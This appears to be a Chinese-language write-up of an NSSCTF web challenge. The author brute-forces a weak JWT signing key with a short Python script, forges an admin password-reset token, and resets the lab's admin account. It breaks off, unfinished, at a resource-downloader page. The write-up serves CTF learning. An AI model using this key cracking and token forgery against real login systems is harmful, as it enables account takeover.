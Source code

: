 [NSSRound#20 Basic]组合拳！ | NSSCTF](https://www.nssctf.cn/problem/5249)
![image](https://github.com/user-attachments/assets/607f872d-2cb9-48a0-b120-f57287ac0202)
打开发现是登录
![image](https://github.com/user-attachments/assets/0044e5dc-4883-4bf1-8d07-7ce0f91f2f5c)
尝试admin,密码随便输，无效，没有说用户是否存在，换其他的没用
有注册用户方式，试试看
![image](https://github.com/user-attachments/assets/c071f59f-7db4-4181-b886-4aef637d7ff9)
可以注册
但是登录显示没有权限，看来要admin
查看另一个突破口，重置密码试试，拿自己的账号
> [!NOTE]
有重置链接，查资料
![image](https://github.com/user-attachments/assets/d635ad05-5f76-4dfe-9207-6b073079dc7d)
查了一下验证码的资料
![image](https://github.com/user-attachments/assets/3d109131-3218-4eb4-9eb8-509c9b4e3315)
哦，尝试扫描网站端口，找到开放的端口
使用dirsearch工具来扫描开发端口
![image](https://github.com/user-attachments/assets/ad36b26c-1bfe-4300-8db4-7a0d4e3941f3)
![image](https://github.com/user-attachments/assets/0a8ca01b-7ff3-4f88-be46-46e64f8c7468)
暴力解出来，哭不太会
```
from authlib.jose import jwt
from authlib.jose.errors import BadSignatureError
from string import ascii_letters,digits
from itertools import product
from tqdm import tqdm
​
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiOTA5NzI3NzE1QHFxLmNvbSIsImVtYWlsIjoiOTA5NzI3NzE1QHFxLmNvbSIsInR5cGUiOjN9.Fxhwn5QJl74QAMVcYzLAXdT1tgies-IAWiXGoghWXBA"
​
# 其实这里走了捷径，可以忽略特殊符号
for i in tqdm(product(list(ascii_letters+digits),repeat=4),desc='attaching...'):
    i = "".join(i)
    try:
        jwt.decode(
            token,
            key=i
        )
        exit(f'key: {i}')
    except BadSignatureError:
        continue;
```
解出
![image](https://github.com/user-attachments/assets/748958e6-a25f-4b82-bcb9-c42288caa91d)
然后反解出admin的重置密码
![image](https://github.com/user-attachments/assets/cf592b22-5e52-4b4b-acd2-6941f2cb7b59)
**推出链接来重置密码**
http://node6.anna.nssctf.cn:20562/#/reset_token?email=Administrator@163.com&token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6IkFkbWluaXN0cmF0b3JAMTYzLmNvbSIsInR5cGUiOjMsImV4cCI6MTczMjYyNjkxOH0.ff-9dF2mQvNTyYpSF0OxZ2dR_iKzvZOugtaIYH7nFQI
![image](https://github.com/user-attachments/assets/46620bd5-cca3-4244-bdc7-93c24b3df613)
最后进入后台，有个资源下载器，base64的反解得到printf("hello world")，好像没啥用
以下内容不太会
![image](https://github.com/user-attachments/assets/ca854366-cf86-4a9a-a4e9-837ffcd4010b)
